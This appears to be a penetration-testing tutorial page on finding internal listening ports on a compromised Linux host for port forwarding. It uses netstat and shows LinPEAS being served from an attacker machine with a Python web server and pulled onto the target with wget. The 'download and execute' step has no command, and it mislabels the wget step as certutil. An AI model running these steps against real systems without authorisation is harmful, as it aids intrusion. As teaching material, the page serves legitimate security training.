





### **INTRODUCTION**

Before we start, we need to know exactly what it is that we are looking for.

1.  Local Address 0.0.0.0: The service is listening on all interfaces and will be visible locally, internally, and externally. If we find a service listening on 0.0.0.0 that was not visible externally on our nmap scan, this means the firewall is blocking inbound connections to this port. This is a port forwarding opportunity!
2.  Local Address 127.0.0.1: The service is only listening for connections locally from this host (localhost), not anywhere else. This is a port forwarding opportunity!
3.  Local Address 172.16.1.150:: The service is only listening for connections from the local network (internally). Only hosts on the local network can connect to this service. This is a port forwarding opportunity!

### **ENUMERATING OPEN PORTS – MANUAL METHOD**

1.  To enumerate open ports on a Linux host, we can simply use this one command:  
    `netstat -tulpn`  

      

    ??? info "Tips & Tricks"

        To investigate an internal port, use `ps -ef | grep 3360` to find the process details.

### **ENUMERATING OPEN PORTS – AUTOMATED METHOD (LINPEAS)**

1.  If you don’t already have LINPEAS, you can get LINPEAS using the following command:  
    `wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh`  
    
      
    
2.  Host the LINPEAS Script Using Python:  
    `python3 -m http.server 8000`  
    
      
    
3.  Transfer the script to the target machine using certutil:  
    `wget http://[IP-ADRESS]:8000/linpeas.sh`  
    
      
    
4.  Then, back on the target machine, we can use the following command to download and execute LinPEAS  
    
      

    ??? info "NOTE"

        Scrolling down to the Network Information > Active Ports, we can see that it’s the same as the output from netstat, which is actually what LinPEAS uses to pull this info for us. 